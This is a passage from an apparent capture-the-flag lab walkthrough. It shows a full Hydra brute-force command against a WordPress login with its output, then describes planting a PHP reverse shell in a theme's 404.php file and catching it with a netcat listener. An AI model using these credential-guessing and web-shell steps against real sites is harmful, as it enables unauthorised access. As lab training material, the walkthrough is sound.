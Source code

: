 ```
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[80][http-post-form] host: <ip-address>   login: <redacted>   password: password
^C[ERROR] Received signal 2, going down ...
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Great, we've got a username! Now can we do the same to get the password? Unfortunately it was taking a very long time...after taking a closer look at the `fsocity.dic` wordlist, I realized there were lots of duplicate entires. I filtered out all the duplicates:

```
$ sort fsocity.dic | uniq > fsocity.dic.unique
```

Now I'll try running `hydra` again:

```
$ hydra -l <redacted> -P fsocity.dic.unique <ip-address> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.41.14%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -v
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-26 12:07:57
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://<ip-address>:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.41.14%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 947.00 tries/min, 947 tries in 00:01h, 10505 to do in 00:12h, 16 active
[STATUS] 944.00 tries/min, 2832 tries in 00:03h, 8620 to do in 00:10h, 16 active
[VERBOSE] Page redirected to http://<ip-address>/wp-admin/
[80][http-post-form] host: <ip-address>   login: <redacted<>   password: <redacted>
[STATUS] attack finished for <ip-address> (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-26 12:14:26
```

We got it! Now we can login to the Wordpress site using these credentials.

# 3. Wordpress Exploitation

Using the credentials we found in `/license` (or from brute forcing), we are able to login to the Wordpress site as the admin user. Right away we see this is Wordpress 4.3.1 running the "twentyfifteen" theme. As the admin user, we may be able to edit some php file included in the theme, enabling us to execute arbitrary code.

For example, if you navigate to Appearance --> Editor in the left menu panel, you'll be able to edit theme files. I'll take the first file listed, `404.php`, and add my own php reverse shell script in it's place. Now, I'll open a netcat listener on my machine to receive the reverse shell, then navigate to `http://<ip-address>/wp-content/themes/twentyfifteen/404.php` in my browser:
